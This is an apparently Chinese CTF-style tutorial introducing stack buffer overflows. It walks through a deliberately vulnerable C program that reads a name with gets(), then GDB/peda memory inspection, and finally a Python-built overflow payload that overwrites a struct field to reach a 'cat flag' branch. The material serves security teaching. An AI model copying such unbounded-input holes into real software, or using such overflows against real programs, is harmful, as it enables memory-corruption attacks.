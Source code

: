 ```yaml
---
id: 776
layout: post
title: '二进制安全之栈溢出（一）'
date: 2017-10-20 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


首先假设已经有了 C 语言的基础知识，还有简单的汇编和了解内存栈结构，如果这些也不懂，还是需要先回去学习基础知识。

以后不特殊说明的话，环境都是 `Ubuntu 16.04.2 x86-64` `gcc version 5.4.0` `GDB version 7.11.1`。

## 安装 peda

peda 是 GDB 的一个插件，提供了很多方便我们调试和漏洞利用的功能。源码和安装方式在 [https://github.com/longld/peda](https://github.com/longld/peda)

下面的代码我也忘了来源了，反正是充满了暴力气息的一段代码。

```clike
#include <stdio.h>

struct Student {
    char name[64];
    char s;
    int birth;
};

int main(int argc, char **argv) {
    struct Student student;
    student.s = 'c';
    printf("What's Your Birth?\n");
    scanf("%d", &student.birth);
    while (getchar() != '\n') ;
    if (student.birth == 1926) {
        printf("You Cannot Born In 1926!\n");
        return 0;
    }
    printf("What's Your Name?\n");
    gets(student.name);
    printf("You Are Born In %d\n", student.birth);
    if (student.birth == 1926) {
        printf("You Shall Have The Flag.\n");
        system("cat flag");
    } else {
        printf("You Are Naive.\n");
        printf("You Spend One Second Here.\n");
    }
    return 0;
}
```

`gcc -g -O0 -o vuln main.c` 编译

## GDB调试指令

```
gdb ./vuln
```

如果成功安装了peda，就可以看到 `gdb-peda$` 的提示了。

常用的指令就不多说了，比如 `list(l)` `break(b)` 等。

通过 `l` 浏览了代码，就可以使用 `b $line_number` 的方式下断点了，比如想让代码停在 14 行，然后看 `student` 变量的内存分布，那我们可以输入`b 14`。

通过 `info breakpoints` 可以看到所有的断点。

`r` 指令是运行这个调试程序，然后看到进程成功的停在了我们的断点处。

```
gdb-peda$ r

...

Breakpoint 1, main (argc=0x1, argv=0x7fffffffe568) at main.c:14
14	    printf("What's Your Birth?\n");
```

至于下面的一堆汇编输出，我们后面再说。

## 万物皆可 print

下断点就是为了查看 `student` 结构体的内存分布，C 语言里面很多函数在这里也是类似的用法的。

```
gdb-peda$ p sizeof(student)
$1 = 0x48
gdb-peda$ p sizeof(student.birth)
$2 = 0x4
gdb-peda$ p sizeof(student.name)
$3 = 0x40
gdb-peda$ p sizeof(student.s)
$4 = 0x1

gdb-peda$ p &student
$5 = (struct Student *) 0x7fffffffe2f0
gdb-peda$ p &(student.name)
$6 = (char (*)[64]) 0x7fffffffe2f0
gdb-peda$ p &(student.s)
$7 = 0x7fffffffe330 "c\344\377\377\205\a"
gdb-peda$ p &(student.birth)
$8 = (int *) 0x7fffffffe334
```

可以看到 `student` 结构体是 72 个字节大小，`student` 结构体和 `student.name` 起始内存地址都是 `0x7fffffffe2f0`，因为在内存中本来就没有结构体这种东西。

至于为什么是 72 个字节，而不是 `4+64+1=69` 个字节呢？

那是因为 `s` 成员是 `char` 类型的，1 个字节，如果接下来就存储 `birth`，那么这就是一个跨边界的数据，计算机可能需要更多的指令才能读取，为了加快内存访问速度进行了内存对齐操作，把 `s` 所在的内存后面空了 3 个字节，关于内存对齐，可以参考 [https://github.com/ludx/The-Lost-Art-of-C-Structure-Packing](https://github.com/ludx/The-Lost-Art-of-C-Structure-Packing)

## 查看指定的内存地址的数据

这里使用的是 `x` 指令，它有三个可选参数 `x/<n/f/u> $addr`

`n` 是一个正整数，表示需要显示的内存单元的个数，也就是说从当前地址向后显示几个内存单元的内容，一个内存单元的大小由后面的 `u` 定义。

`f` 表示显示的格式，比如 `x` 按十六进制格式显示变量, `d` 是按十进制格式显示变量。

`u` 表示从当前地址往后请求的字节数，如果不指定的话，GDB 默认是 4 个 bytes。`u`参数可以用下面的字符来代替，`b` 表示单字节，`h` 表示双字节，`w` 表示四字节，`g` 表示八字节。当我们指定了字节长度后，GDB会从指内存定的内存地址开始，读写指定字节，并把其当作一个值取出来。

为了打印 `student` 结构体的内存分布，先在第 21 行下断点，然后让进程继续执行直到下一个断点。

```
gdb-peda$ b 21
Breakpoint 2 at 0x40079d: file main.c, line 21.
gdb-peda$ c
Continuing.
What's Your Name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

...

Legend: code, data, rodata, value

Breakpoint 2, main (argc=0x1, argv=0x7fffffffe428) at main.c:21
21	    printf("You Are Born In %d\n", student.birth);
```

然后就可以

```
gdb-peda$ x/72xb &student
0x7fffffffe2f0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe2f8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe300:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe308:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe310:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe318:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe320:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe328:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x00
0x7fffffffe330:	0x63	0xe4	0xff	0xff	0x85	0x07	0x00	0x00
```

前 64 个字节就是字母 `A` 的 ASCII `0x41`，然后是 `0x00` 字符串结尾，然后是代码中写死的 `c` 字母 `0x63`，然后跳过三个字节之后还剩四个字节，就是一个 `int` 数字。

从最后 4 个字节分布可以看出来，对于 `int 0x00000785` 这种多字节变量，它们的低字节在内存低地址处，高字节在内存高地址处，这种分布方式称为小端序，还有的机器是反过来的，叫做大端序。对于 `char` 这种单字节变量和 `student.name` 这种数组来说，没有大小端的问题，

## 分析内存结构

这里问题就很清晰了，`student.name` 数组没有限制长度，如果我们输入超过 63 位的话，多出来的内容将覆盖 `student.s` 的内存（注意字符串的结尾），如果输入再长的话，就会覆盖 `student.birth` 的内存空间。

所以我们可以确定 `student.name` 的输入长度是 70 字节，前面 68 字节可以是任意构造，只要认真构造最后两个字节，让 `student.birth` 的内存为 `0x00000786` 就可以，所以我们构造的payload就是`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x07`

然后这种特殊的字符我们都可以使用 Python 输入到文件中，然后重定向输入的

```
➜  Desktop python -c "print '1234\n' + 'A' * 68 + '\x86\x07\n'" > 1.in
➜  Desktop ./vuln < 1.in
What's Your Birth?
What's Your Name?
You Are Born In 1926
You Shall Have Flag.
THIS_IS_FLAG
```

GDB 也可以使用这种重定向输入的

```
gdb-peda$ b 21
Breakpoint 1 at 0x40079d: file main.c, line 21.
gdb-peda$ r < 1.in
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < 1.in
What's Your Birth?
What's Your Name?

...

Breakpoint 1, main (argc=0x1, argv=0x7fffffffe428) at main.c:21
21	    printf("You Are Born In %d\n", student.birth);
gdb-peda$ x/72xb &student
0x7fffffffe2f0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe2f8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe300:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe308:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe310:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe318:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe320:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe328:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe330:	0x41	0x41	0x41	0x41	0x86	0x07	0x00	0x00
```

可以看到我们控制了 `student` 的内存，让代码进入了指定的分支。

